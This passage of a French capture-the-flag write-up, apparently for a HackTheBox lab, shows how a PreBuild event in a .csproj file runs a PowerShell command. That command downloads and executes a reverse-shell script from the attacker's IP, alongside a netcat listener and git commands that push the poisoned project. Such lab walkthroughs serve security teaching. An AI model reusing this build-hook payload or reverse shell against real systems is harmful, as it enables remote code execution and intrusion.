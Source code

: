Je peux voir que l'application compile les fichiers dans le répertoire git. Nous devons trouver un moyen d'exploiter ce processus. En faisant des recherches, je trouve cette [page de Microsoft](https://learn.microsoft.com/en-us/visualstudio/ide/how-to-specify-build-events-csharp?view=vs-2022) qui explique qu'un "pre-build event" fait référence à un script ou à une commande qui est exécuté avant que le processus de compilation pour le projet ne commence.

Nous pouvons utiliser un événement `PreBuild` dans le fichier `.csproj` pour exécuter des commandes. Essayons d'ajouter un shell inversé (reverse shell).

- Ci-dessous, mon fichier `.csproj` modifié
```
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

<Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.222:8000/revshell.ps1')" />
  </Target>

</Project>
```

- Créons un script PowerShell `revshell.ps1` pour obtenir un shell distant. J'ai utilisé ce [nishang shell](https://github.com/K-Scorpio/scripts-collection/blob/main/revshell.ps1) pour le reverse shell. J'ai modifié ce [shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), en changeant le nom de la fonction et en ajoutant le "reverse switch" à la fin.

Je mets en place un listener netcat avec

```
nc -nvlp 9001
```

Nous utilisons encore ces commandes git

```
git add .
git commit -m "Add as a test"
cd .git
git --bare update-server-info
cd ..
```

Si vous avez stoppé votre serveur Python, redémarrez-le (et laissez-le tourner) et re-soumettez votre lien.

Le listener devrait capturer un shell une fois la compilation terminée, nous sommes dans le système!

![nc listener, reverse shell](/images/HTB-Visual/nc-listener-shell.png)
